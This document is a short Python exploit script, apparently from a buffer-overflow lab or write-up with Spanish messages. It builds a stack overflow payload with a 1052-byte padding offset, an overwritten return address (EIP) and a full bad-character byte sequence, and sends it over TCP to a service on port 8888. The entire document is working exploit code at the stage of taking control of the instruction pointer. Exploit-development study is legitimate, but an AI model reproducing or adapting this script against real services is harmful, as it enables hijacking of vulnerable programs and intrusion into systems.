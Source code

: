 ```python3
#!/usr/bin/python3

import socket, signal, sys

def def_handler(sig, frame):
    print("\n\n[!]Saliendo...\n")
    sys.exit(1)

#Ctrl + C
signal.signal(signal.SIGINT, def_handler)

#Global
ip_address = "127.0.0.1"
offset = 1052
before_EIP = b"A" * offset
EIP = b"\x7b\x8a\xa9\x68" # 0x68a98a7b

badchars = (b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = before_EIP + EIP + badchars



def makeConnection(): 

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 8888))
    s.send(payload)


if __name__ == '__main__':

    makeConnection()
```

